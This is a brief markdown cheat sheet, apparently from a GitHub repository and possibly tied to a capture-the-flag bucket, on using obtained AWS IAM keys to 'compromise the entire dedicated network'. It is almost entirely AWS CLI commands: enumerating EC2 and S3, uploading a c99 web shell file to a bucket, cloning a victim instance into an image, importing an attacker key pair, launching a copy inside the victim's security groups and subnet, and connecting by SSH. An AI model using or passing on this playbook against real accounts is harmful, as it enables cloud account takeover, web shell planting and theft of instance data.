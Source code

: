 **Obtaining IAM Key allow you to create any instance, create Security group anything you could do whatever you want.there are several vector to obtain a valid IAM Key to laverage to compromise the entire dedicated network. **

```
export AWS_DEFAULT_REGION=us-east-1
export AWS_ACCESS_KEY_ID=XXX
export AWS_SECRET_ACCESS_KEY=XXX
export AWS_SESSION_TOKEN=XXXX
```
# Basic Enumeration
```
aws ec2 describe-regions --output table
aws ec2 describe-addresses
aws ec2 describe-instance-status
aws ec2 describe-key-pairs
aws ec2 describe-instance-types
aws ec2 describe-network-acls
aws ec2 describe-security-groups
aws ec2 describe-snapshots

```



```
aws s3 ls  s3://ctfbucket-374385855887
aws s3 cp file.txt s3://ctfbucket-374385855887/test.txt
aws s3 cp c99.txt s3://ctfbucket-374385855887/c99.txt
http://s3.amazonaws.com/ctfbucket-374385855887
```


```
aws ec2 describe-instances
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6
aws ec2 create-image --instance-id i-01dae4002316c79e6 --name "XXXX" --description "XXXX"
aws ec2 import-key-pair --key-name "XXXX" --public-key-material file://aws.pub
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --count 1 --instance-type t2.micro --key-name  --query "Instances[0].InstanceId"
aws ec2 run-instances --image-id ami-069f61c4801753ffc --security-group-ids "sg-a5b42392" "sg-0ed973a145df7fa29" "sg-07144a98dc383a311" --subnet-id subnet-7aefab74 --count 1 --instance-type t2.micro --key-name Deloitte --query "Instances[0].InstanceId"
aws ec2 describe-instances --instance-ids i-01dae4002316c79e6 --query "Reservations[0].Instances[0].PublicIpAddress"
ssh -i aws_terraform ubuntu@3.238.62.143
```
